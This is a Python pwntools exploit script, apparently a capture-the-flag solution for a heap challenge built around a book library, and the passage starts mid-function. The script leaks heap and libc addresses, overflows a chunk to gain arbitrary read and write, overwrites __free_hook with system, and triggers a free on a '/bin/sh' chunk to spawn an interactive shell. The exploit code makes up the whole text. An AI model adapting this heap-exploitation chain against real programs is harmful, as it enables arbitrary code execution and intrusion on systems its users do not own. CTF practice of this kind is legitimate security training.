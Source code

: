 ```python
        assert len(desc) == 1
        return u64((desc[0] + "\x00\x00")[:8])

    def pwn(self):
        self.set_author_name("shesl-meow", init=True)
        # todo: leak heap addr
        self.set_author_name("A" * 32)
        self.create(0x18, "B" * 0x18, 0x100, "C" * 0x100)  # 1
        self.detail()
        author = [ld["Author"] for ld in self.library_detail if ld["ID"] == "1"]
        assert len(author) == 1
        library0 = u64(author[0][32:] + "\x00\x00")
        print "leak library0 address: %s" % hex(library0)

        # todo: get arbitrary address write&read
        self.create(0x20, "D" * 0x20, 0x20, "E" * 0x20)  # 2
        offset = library0 & 0xff
        assert offset >= 0x20
        payload = "C"*(0x100+0x10 - offset) + p64(0x1) \
                  + p64(library0 + 0x20 + 0x10) \
                  + p64(library0 + 0x20 + 0x30 + 0x30 + 0x10 + 0x10) \
                  + p64(0x100)
        self.edit(1, payload)
        self.set_author_name("A" * 32)
        print "get arbitrary address write&read"

        # todo: leak libc address via unsorted bin address
        for i in range(4):
            self.create(0x100, "F" * 0x100, 0x100, "G" * 0x100)  # 3,4,5,6
        for i in range(4):
            self.delete(i + 3)  # 3,4,5,6
        libcbase = self.read_from(library0 + 0x8c0) - 0x1bbca0
        print "libc base address: %x" % libcbase

        # todo:
        #   1. write "/bin/sh" to library[2] name
        #   2. replace `__free_hook` as `system`
        bin_sh_addr = libcbase + next(self.libc.search("/bin/sh"))
        free_hook_addr = libcbase + self.libc.symbols["__free_hook"]
        system_addr = libcbase + self.libc.symbols["system"]
        print "'/bin/sh' address: %x" % bin_sh_addr
        print "_free_hook address: %x" % free_hook_addr
        print "system address: %x" % system_addr
        self.create(0x20, "/bin/sh", 0x20, "/bin/sh")  # 7
        self.write_to(free_hook_addr, p64(system_addr))

        # todo: get shell
        self.p.sendline("2")
        self.p.sendlineafter("Enter the book id you want to delete: ", "7")
        self.p.interactive()


if __name__ == "__main__":
    c = Challenge()
    c.pwn()
```


